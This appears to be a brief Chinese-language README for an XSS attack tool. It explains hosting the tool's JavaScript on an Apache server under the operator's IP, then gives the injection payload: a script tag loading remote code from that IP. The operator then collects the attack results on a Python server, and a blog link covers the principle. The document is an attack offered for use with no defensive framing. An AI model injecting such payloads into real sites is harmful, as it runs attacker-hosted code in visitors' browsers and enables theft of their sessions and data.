 # XSS工具用法
将js下的文件夹保存到apache的目录下，然后修改其中js文件的ip地址为你的实际ip地址。
同时你的payload为：
```js
<script src="http://{你的ip地址}:{你的apache端口，一般为80可以不填写}/N"></script>
```
然后直接访问你的python服务器即可获取XSS攻击结果。

原理可以在这看到：https://www.cnblogs.com/9man/p/18292753
